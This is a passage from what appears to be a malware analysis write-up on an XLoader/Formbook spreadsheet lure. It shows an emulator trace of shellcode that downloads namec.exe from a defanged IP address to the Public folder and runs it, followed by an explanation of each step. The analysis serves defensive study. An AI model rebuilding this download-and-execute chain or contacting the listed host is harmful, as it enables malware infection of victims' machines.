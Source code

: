 ![Scdbg Options](/assets/images/xloader-formbook-velvetsweatshop-spreadsheet/scdbg-xloader-formbook-xlsx.png)

```
401454  GetProcAddress(ExpandEnvironmentStringsW)
401487  ExpandEnvironmentStringsW(%PUBLIC%\vbc.exe, dst=12fb9c, sz=104)
40149c  LoadLibraryW(UrlMon)
4014b7  GetProcAddress(URLDownloadToFileW)
401505  URLDownloadToFileW(hxxp://2.58.149[.]229/namec.exe, C:\users\Public\vbc.exe)
40154d  LoadLibraryW(shell32)
401565  GetProcAddress(ShellExecuteExW)
40156d  unhooked call to shell32.ShellExecuteExW
```

In the shellcode, the adversary uses ExpandEnvironmentStringsW to find the Public folder in Windows. Next, they use URLDownloadToFileW to retrieve content from `hxxp://2.58.149[.]229/namec.exe` and write it to `C:\Users\Public\vbc.exe`. Finally, they use ShellExecuteExW to launch `vbc.exe`.
